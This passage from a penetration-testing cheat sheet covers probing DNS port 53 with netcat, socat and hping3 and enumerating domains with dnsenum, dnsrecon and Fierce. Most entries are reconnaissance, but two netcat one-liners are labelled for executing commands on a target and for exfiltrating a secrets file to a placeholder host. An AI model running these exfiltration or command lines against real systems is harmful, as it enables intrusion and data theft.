     ```bash
    nc <target_ip> 53
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 53 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 53
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 53 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:53
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 53 -c 1
    ```

#### \[\[DNSEnum]]

*   **Enumerate Domain:** Enumerating DNS records, finding subdomains, and gathering DNS-related information during reconnaissance.

    ```bash
    dnsenum example.com
    ```

#### \[\[DNSRecon]]

*   **Enumerate Domain:** Comprehensive DNS enumeration, including brute-forcing subdomains and testing for zone transfers.

    ```bash
    dnsrecon -d example.com
    ```

#### \[\[Fierce]]

*   **Enumerate Domain:** DNS-based reconnaissance and subdomain enumeration.
